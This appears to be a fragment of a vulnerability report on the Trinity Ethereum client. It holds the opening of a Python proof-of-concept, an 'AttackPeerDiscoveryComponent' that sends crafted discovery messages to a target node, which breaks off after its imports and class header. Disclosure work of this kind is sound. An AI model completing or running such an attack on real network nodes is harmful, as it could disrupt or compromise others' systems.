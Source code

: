 Here's a screenshot of an invalid payload: 

![screenshot](https://user-images.githubusercontent.com/2865694/90382895-aad86c00-e07f-11ea-97be-6803f2a886af.png)

#### Code

Add the target node to `AttackDiscoveryService` bootnodes and wait for it to send out messages.

```python
from argparse import (
    ArgumentParser,
    _SubParsersAction,
)
import functools
from typing import (
    Tuple,
    Type,
)
from typing_extensions import Literal
import trio
from rlp import sedes
import async_service
from lahja import EndpointAPI
from eth_typing import BlockNumber
from eth.abc import VirtualMachineAPI
from eth.constants import GENESIS_BLOCK_NUMBER
from eth.db.backends.level import LevelDB
from eth.db.backends.memory import MemoryDB
from p2p.constants import (
    DISCOVERY_EVENTBUS_ENDPOINT,
)
from p2p.discovery import (
    PreferredNodeDiscoveryService,
    DiscoveryCommand,
    DiscoveryService,
    V4_HANDLER_TYPE,
    NodeAPI,
    Iterable, List,
    NodeID,
    keccak, sort_by_distance, trio_utils, eth_utils, to_hex,
    constants,
    Hash32, rlp, PROTO_VERSION, _get_msg_expiration, int_to_big_endian, CMD_PING, MAC_SIZE, encode_hex, HEAD_SIZE,
    CMD_NEIGHBOURS, NeighboursPacket
)

from p2p.node_db import NodeDB
from p2p.identity_schemes import default_identity_scheme_registry
from trinity.config import Eth1AppConfig
from trinity.db.eth1.header import BaseAsyncHeaderDB
from trinity.db.manager import DBClient
from trinity.db.eth1.header import TrioHeaderDB
from trinity.extensibility import (
    TrioIsolatedComponent,
)
from trinity.protocol.eth import forkid

class AttackPeerDiscoveryComponent(TrioIsolatedComponent):
    """
    Continously discover other Ethereum nodes.
    """
    name = "AttackDiscovery"
    endpoint_name = DISCOVERY_EVENTBUS_ENDPOINT

    @property
```